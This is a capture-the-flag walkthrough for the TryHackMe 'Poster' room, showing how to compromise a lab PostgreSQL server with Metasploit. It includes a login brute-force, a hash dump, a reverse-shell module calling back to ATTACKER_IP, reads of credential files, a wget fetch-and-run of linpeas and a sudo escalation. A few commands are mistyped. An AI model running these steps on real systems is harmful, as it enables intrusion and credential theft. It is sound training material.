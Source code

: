 # Poster Walkthrough 
<br/>

## Intro
Welcome to the Lookup challenge, here is the link to the [room](https://tryhackme.com/room/poster) on TryHackMe.

This challenge is about hacking RDBMS.

Whenever you feel ready press on "Start Machine" and connect via OpenVPN from your machine or use the AttackBox.

Let's begin!

<br/>
<br/>

## The Challenge
Let's add the domain to the hosts file:
```bash
echo "MACHINE_IP poster.thm" | sudo tee -a /etc/hosts
```

Now we scan for open ports with *nmap*:
```bash
nmap -sV -sC poster.thm
```

We find the following open:
```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 71:ed:48:af:29:9e:30:c1:b6:1d:ff:b0:24:cc:6d:cb (RSA)
|   256 eb:3a:a3:4e:6f:10:00:ab:ef:fc:c5:2b:0e:db:40:57 (ECDSA)
|_  256 3e:41:42:35:38:05:d3:92:eb:49:39:c6:e3:ee:78:de (ED25519)
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Poster CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
5432/tcp open  postgresql PostgreSQL DB 9.5.8 - 9.5.10 or 9.5.17 - 9.5.23
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-07-29T00:54:25
|_Not valid after:  2030-07-27T00:54:25

```

Visiting the website at `http://poster.thm` we find no valuable information.

We can now move the investigation of the PostgreSQL server.

We can leverage a Metasploit module to enumerate users:
```bash
msfconsole
```

Search for modules related to our job:
```bash
search postgresql
```

```bash
use auxiliary/scanner/postgres/postgres_login
```

```bash
set RHOSTS MACHINE_IP
```

Execute it:
```bash
run
```

We quickly find some valid credentials: `postgres:password` -> template 1 database.

Now let's search a module for code execution, this one should fit our needs:
```bash
use auxiliary/admin/postgres/postgres_sql 
```

Set the parameters:
```bash
set RHOSTS MACHINE_IP
```
```bash
set USERNAME postgres
```
```bash
set PASSWORD password
```
```bash
run
```

This prints us the Postgres version: 
```
PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit
```

Searching online we can find that this version has multiple vulnerabilities, from arbitrary SQL code execution to privilege escalation.

Since this challenge wants us to use Metasploit for the whole job, we can search for a module to dump user hashes:
```bash
use  auxiliary/scanner/postgres/postgres_hashdump
```

Set the parameters:
```bash
set RHOSTS MACHINE_IP
```
```bash
set USERNAME postgres
```
```bash
set PASSWORD password
```
```bash
run
```

We find the 6 user password's hashes:
```
Username   Hash
 --------   ----
 darkstart  md58842....
 poster     md578fb...
 postgres   md532e1....
 sistemas   md5f7db....
 ti         md57af9....
 tryhackme  md503aa.....

```

Those are all MD5 hashes, we can put them in a file called `hashes.txt` and crack them, can use an online tool like this [one](https://hashes.com/en/decrypt/hash)
```
darkstart:REDACTED_PASSWORD
postgres:REDACTED_PASSWORD
ti:REDACTED_PASSWORD
poster:REDACTED_PASSWORDs
```

For the answer this module allows to read files if authenticated:
```bash
use auxiliary/admin/postgres/postgres_readfile 
```

Now we run the module to get command execution:
```bash
use multi/postgres/postgres_copy_from_program_cmd_exec
```

```
set LHOST ATTACKER_IP
```
```
set RHOSTS 10.10.138.23
```
```
set PASSWORD  password
```
```
set DATABASE postgres
```
```
run
```

We got a shell, let's upgrade it (if you do not know how, i made a guide [here](https://github.com/Maat-Cyber/Maat-Cyber-World/blob/main/Tips-%26-Resources/Reverse_Shell-Upgrade.md)).

Looking around we can find 2 users: "alison" and "dark".
There is a file in the "dark" home  directory called `credentials.txt` open it:
```
cat /home/dark/credentials.txt
```

Inside we find it's password: `dark:REDACTED`.

For a more stable connection we can login via SSH:
```bash
ssh dark@poster.thm
```

<br/>

### Privilege Escalation
Now we need to escalate our privileges.
Firstly we ill be moving laterally to the user "alison" to get the user flag, then to the root.

Let's check some permissions:
```
sudo -l
```

W can't run any command  with `sudo`.

Let's transfer *linpeas* on the target:
On your machine start an HTTP server:
```bash
python3 -m http.server
```

On target:
```
wget://YOUR_IP:8000/linpeas.sh
```

Make the file executable and run it:
```bash
chmod +x linepeas.sh
./linpeas.sh
```

The script find alison password in this file:
```bash
cat /var/www/html/config.php
```

```
	$dbhost = "127.0.0.1";
	$dbuname = "alison";
	$dbpass = "REDACTED_PASSWORD";
	$dbname = "mysudopassword";
```

Now change user:
```bash
su alison
```

Now we can read the first flag:
```bash
cat ~/user.txt
```
--> REDACTED

Time to find a way to become root.

Let's check what we can run with `sudo` as Alison:
```bash
sudo -l
```

This time we are allowed to run any command.
Let's become root:
```bash
sudo su
```

Now with the privileged shell we can get the root flag:
```bash
cat /root/root.txt
```
<br/>
<br/>

## Conclusion
Congratulations you have successfully practiced with Metasploit and hacked the database!

I hope you had fun doing the challenge and following along!

Catch you in the next CTF 😃 
